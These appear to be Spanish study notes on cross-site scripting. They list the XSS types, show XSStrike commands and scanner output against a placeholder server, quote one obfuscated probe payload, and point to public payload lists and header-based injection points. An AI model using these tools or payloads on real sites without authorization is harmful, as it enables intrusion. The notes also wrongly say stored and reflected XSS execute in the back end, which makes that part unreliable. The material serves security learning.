 # Tipos de XSS

- XSS Stored 
	- Crítico.
	- Ejecutado en Back end.
- XSS Reflected
	- Grave.
	- Ejecutado en Back end y devuelto al navegador.
- XSS DOM
	- Leve.
	- Ejecutado en lado cliente (navegador).

# XSS Discovery

## Herramientas automatizadas

Herramientas de código abierto más comunes que pueden ayudarnos a descubrir XSS son [XSS Strike](https://github.com/s0md3v/XSStrike) , [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS) y [XSSer](https://github.com/epsylon/xsser).

```python
$ git clone https://github.com/s0md3v/XSStrike.git
$ cd XSStrike
$ pip install -r requirements.txt
$ python xsstrike.py

XSStrike v3.1.4
...SNIP...
```

```python
$ python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 

        XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: task 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <HtMl%09onPoIntERENTER+=+confirm()> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N]
```


## Payloads XSS

Podemos encontrar enormes listas de cargas útiles XSS en línea, como la de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) o la de [PayloadBox](https://github.com/payloadbox/xss-payload-list) . Luego podemos comenzar a probar estas cargas útiles una por una copiando cada una y añadiéndolas a nuestro formulario, y viendo si aparece un cuadro de alerta.

XSS se puede inyectar en cualquier entrada en la página HTML, lo que no es exclusivo de los campos de entrada HTML, sino que también puede estar en encabezados HTTP como Cookie o User-Agent (es decir, cuando sus valores se muestran en la página).

